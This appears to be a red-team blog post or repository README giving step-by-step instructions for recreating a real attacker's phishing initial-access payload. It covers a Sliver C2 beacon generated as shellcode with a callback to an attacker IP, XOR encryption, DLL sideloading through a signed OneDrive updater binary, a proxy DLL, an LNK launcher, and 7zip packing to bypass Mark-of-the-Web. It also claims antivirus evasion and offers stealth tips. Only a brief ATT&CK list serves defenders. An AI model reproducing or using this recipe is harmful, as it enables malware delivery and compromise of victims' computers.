









Initial access by using DLL sideloading and abusing signed binaries
This post showcases an attempt to emulate the initial access payload demonstrated in PaloAltoNetworks Unit42's blog post. The payload encompasses an ISO file containing on-disk shellcode, DLL sideloading payloads, and an LNK file to initiate the DLL sideloading process. Certain modifications have been made to certain steps, notably the packaging method for the ISO payload, which has been addressed by Microsoft's patches.
The original payload
Based on the Unit42 blog post, the attackers used an ISO payload with DLL sideloading, a LNK file and on-disk shellcode. The below diagram shows the attack flow:

Image from PaloAlto Unit42 blog post.
The initial payload starts as an ISO file. This was done most likely to bypass Mark-of-the-Web security feature. The following elements are inside the ISO file after it's mounted:
| TYPE | NAME | DESCRIPTION |
|---|---|---|
| ISO | Roshan_CV.iso | ISO file that gets mounted and extracts payloads |
| LNK | Roshan-Bandara-CV-Dialog.lnk | Windows shortcut file which starts OneDriveUpdater.exe through cmd.exe |
| EXE | OneDriverUpdater.exe | A legitimate digitally signed Microsoft PE binary that is used to update OneDrive |
| DLL | version.dll | Malicious proxy DLL that gets DLL sideloaded |
| DLL | vresion.dll | Legitimate version.dll that is digitally signed by Microsoft |
| Shellcode | OneDrive.Update | Shellcode that gets executed by version.dll |
The payload gets executed through the following steps:
- The ISO file extracts all the payloads listed in the table above.
- Victim user clicks the LNK file. The LNK file starts cmd.exe which then starts the OneDriveUpdater.exe.
- OneDriveUpdater.exe sideloads the attacker's version.dll.
- version.dll reads the shellcode (OneDrive.Update) from disk, decrypts it using XOR, and injects the shellcode into theRuntimeBroker.exe process.
- Any legitimate function calls to the version.dll gets proxied to the legitimate version.dll library -vresion.dll
Based on the details above, let's recreate the payloads.
Emulating the initial access with no money and no skills
1 - Shellcode
The attackers used shellcode from Brute Ratel's C4 agent. This can be substituted with anything such as CobaltStrike or Meterpreter. In this case a Sliver beacon is generated:
sliver > generate beacon --mtls <IP> -f shellcode --save /tmp/OneDrive.update
The shellcode has to be XOR encrypted. The attackers used a 28-byte key jikoewarfkmzsdlhfnuiwaejrpaw to encrypt the shellcode. In this repository there's a simple XOR encryption tool XOR-tool.py written in Python3 that can do that. Change the parameters and and run the tool inside the directory the shellcode resides.
2 - OneDriveStandaloneUpdater and finding a sideloadable DLL
You can obtain OneDriveStandaloneUpdater binary if you have the OneDrive installed on a machine at C:\Users\<user>\AppData\Local\Microsoft\OneDrive. Alternatively, you can download it through malshare by the IoC hashes that was listed in the Unit42's blog post. After you've got the binary, place it in a your working directory.
The attackers used version.dll for their sideloading target. If you wish to use it, find it in c:\windows\system32 and copy it in the same working directory. Alternatively, you can find your own sideloading target with a tool like Spartacus or by running the binary with Procmon running in the background with the following filters:

The results show potential DLL sideloading targets:

In this case, this post will show how to sideload dpapi.dll, which the OneDriveStandaloneUpdater binary tries to load. Copy the DLL into your working directory.
3 - DLL Sideloading
To create the malicious proxy DLL, you can use tool such as SharpDllProxy. To use it, clone the repository and compile it. Copy over the shellcode file and the dpapi.dll file in the directory where SharpDLLProxy is. Then, run it.
cp c:\windows\system32\dpapi.dll .
.\SharpDllProxy.exe --dll .\dpapi.dll --payload .\OneDrive.Update

SharpDLLProxy will create a DLL and a .c file. The DLL is just a renamed dpapi.dll- rename the file to dapi.dll. Renaming the DLL is not necessary, this just mimics the filenames from the blog post.
The .c file serves as the source code that will be compiled to generate the malicious DLL file. It is necessary to make alterations to this source code in order to align with the tactics, techniques, and procedures (TTPs) employed by the attackers.
4 - Modifying the proxy DLL
The dpapi_pragma.c file is the file that needs to be compiled into the malicious proxy DLL - dpapi.dll. Open up Visual Studio (or any IDE) and create a Dynamic-Link Library (DLL) C++ project.

The source code needs modifications to mimic the TTPs of the attackers. In the blog post, the attackers perform remote process injection using NtMapViewOfSection Windows API to map a memory section for the decrypted payload which gets reflected into Runtimebroker.exe memory space.
In this post, we will execute the shellcode inline within the OneDriveStandaloneUpdater.exe without the need for remote process injection. The source code for the dpapi.dll is in this repository.
If using Visual Studio, make sure the Project Charset is correctly set. Right click the project -> Properties -> Advanced -> Character Set -> Set to Use Multi-byte Character Set for the correct Configuration & Platform.

5 - LNK file
The LNK file is used to execute OneDriveStandaloneUpdater.exe with cmd.exe. On Windows this can be done easily by right clicking inside our working directory and clicking New -> Shortcut. Right click the shortcut and click Properties.
Edit the target section to run cmd.exe to execute OneDriveStandaloneUpdater.exe binary with the line:
%windir%/system32/cmd.exe /c OneDriveStandaloneUpdater.exe
Change the name and the icon of the LNK file as you see fit.

6 - 7zip packing
In the original payload, the attackers used ISO format to pack their payload. This was most likely done to bypass Mark-of-the-Web (MotW) security feature. Microsoft has patched the ISO packing method in their November 2022 Patch security updates. In this post, we will change the packing method to use 7zip to bypass MotW security feature.
7zip is a popular open-source file archiving tool. 7zip has updated their tool to include MotW identifiers in the archived files since 22.00 update, however, this feature is disabled by default.
Have all your files in the working directory:
- OneDrive.Update - XOR encrypted shellcode
- dpapi.dll - Malicious proxy DLL
- dapi.dll - Actual dpapi.dll that was renamed
- OneDriveStandaloneUpdater.exe - Legitimate OneDrive updater binary
- Roshan-Bandera-CV-Dialog.lnk - LNK file
When you have all of your files in your working directory, pack your directory using 7zip. Remember to hide everything except the LNK file. You may consider password protecting the archive.

Wrap up
Now that everything is set, we have the following payload wrapped up in a 7zip archive:
| TYPE | NAME | DESCRIPTION |
|---|---|---|
| 7zip | Roshan_CV.7zip | 7zip file that extracts the payloads |
| LNK | Roshan-Bandera-CV-Dialog.lnk | Windows shortcut file which starts OneDriveStandaloneUpdater.exe through cmd.exe |
| EXE | OneDriverStandaloneUpdater.exe | A legitimate digitally signed Microsoft PE binary that is used to update OneDrive |
| DLL | dpapi.dll | Malicious proxy DLL that gets DLL sideloaded |
| DLL | dapi.dll | Legitimate dpapi.dll that is created by Microsoft |
| Shellcode | OneDrive.Update | Encrypted shellcode that gets executed by dpapi.dll |
The execution flow of this attack can be seen below.

Result
Send your 7zip payload to the target. The victim should right click the archived folder and click 7zip -> Extract to "XYZ" and run the payload.

As seen above, our payload gets executed successfully and we get a callback from the Sliver beacon.
The payload was not detected by up-to-date Microsoft Defender as of 14.06.2023
FireEye Endpoint Security Version v33.46.6 did not detect the payload.
Possible improvements
The Sliver beacon that was used is huge (~10MB!!) consider using either a stager or another implant that is smaller in size.
The process injection technique that was used is well documented. Consider using some other technique, perform direct system calls, anti-sandboxing etc. if you wish to be more stealthy. Go crazy :D
Blue team perspective
This attack heavily relies on the DLL side-loading technique.
MITRE ATT&CK MATRIX
TA0001 - Initial access
- T1566 - Phishing
TA0002 - Execution
- T1204 - User Execution
- T1204.002 - Malicious File
TA0005 - Defence Evasion
- T1564 - Hide Artifacts
- T1564.001 - Hidden Files and Directories
- T1574 - Hijack Execution Flow
- T1574.002 - DLL Side-Loading
- T1027 - Obfuscated files or information
- T1027.002 - Software Packing
- T1553 - Subvert Trust Controls
- T1553.005 - Mark-of-the-Web Bypass
- T1218 - System Binary Proxy Execution
- T1036 - Masquerading
TA0011 - Command and Control - T1573 - Encrypted Channel
Sources
Harbison Mike & Renals Peter. 2022. When Pentest Tools Go Brutal: Red-Teaming Tool Being Abused by Malicious Actors. Unit42 PaloAltoNetworks blog. https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/